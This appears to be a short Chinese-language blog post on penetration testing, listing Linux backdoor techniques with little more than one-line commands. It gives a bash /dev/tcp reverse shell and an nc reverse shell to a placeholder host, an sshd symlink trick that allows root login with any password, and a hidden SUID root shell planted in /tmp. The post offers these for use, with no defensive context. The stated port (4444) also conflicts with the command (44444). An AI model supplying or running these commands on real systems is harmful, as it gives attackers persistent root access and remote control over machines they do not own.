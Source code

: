 ```yaml
---
title: "Linux 的几种后门"
date: 2018-01-26T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['linux']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



Linux 的 bash nc ssh SUID 后门

<!--more-->

### bash

`bash -i >& /dev/tcp/ip/port 0>&1`

### nc

`nc ip port -e /bin/bash`

nc 可以从源码编译.

`./configure --prefix=/tmp/nc && make && make install`

### ssh 后门

`ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=44444;`

连接 4444 用 root/bin/ftp/mail 当用户名 密码随意.

### SUID 后门

执行用户会获得该文件所有者的权限.

`cp /bin/sh /tmp/.shell && chmod 4755 /tmp/.shell`

执行 /tmp/.shell -p 即可获得 root 权限.